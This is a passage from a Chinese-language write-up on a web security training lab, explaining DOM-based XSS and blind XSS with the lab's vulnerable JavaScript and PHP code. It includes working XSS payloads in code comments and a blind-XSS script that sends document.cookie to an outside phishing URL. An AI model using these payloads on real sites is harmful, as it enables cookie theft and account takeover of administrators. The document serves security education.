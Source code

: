 ```HTML
</div>
```

### DOM 型 XSS-X

#### 漏洞利用

与前一 DOM 型 XSS 相同，只是获取参数的方式变成了从 URL 的 GET 参数中获取

#### 漏洞代码解读

```HTML
<div id="xssd_main">
    <script>
        function domxss(){
            var str = window.location.search;
            var txss = decodeURIComponent(str.split("text=")[1]);
            var xss = txss.replace(/\+/g,' ');
            //                        alert(xss);

            document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";
        }
        //试试：'><img src="#" onmouseover="alert('xss')">
        //试试：' onclick="alert('xss')">,闭合掉就行
    </script>
    <!--<a href="" onclick=('xss')>-->
    <form method="get">
        <input id="text" name="text" type="text"  value="" />
        <input id="submit" type="submit" value="请说出你的伤心往事"/>
    </form>
    <div id="dom"></div>
</div>
```

### XSS 盲打

#### 漏洞利用

XSS 盲打即在不知道后台是否存在 XSS 漏洞的情况下提交 XSS payload ，该 payload 会在后台管理页面被打开时被执行，从而攻击后台管理员以实现攻击目的。直接在该页面的留言板内提交 payload 即可

```HTML
// Use your server
<script>
    document.location = "http://7erry.com/phish?cookie="+document.cookie;
</script>
```

#### 漏洞代码解读

前端

```PHP
if(array_key_exists("content",$_POST) && $_POST['content']!=null){
    $content=escape($link, $_POST['content']);
    $name=escape($link, $_POST['name']);
    $time=$time=date('Y-m-d g:i:s');
    $query="insert into xssblind(time,content,name) values('$time','$content','$name')";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        $html.="<p>谢谢参与，阁下的看法我们已经收到!</p>";
    }else {
        $html.="<p>ooo.提交出现异常，请重新提交</p>";
    }
}
```
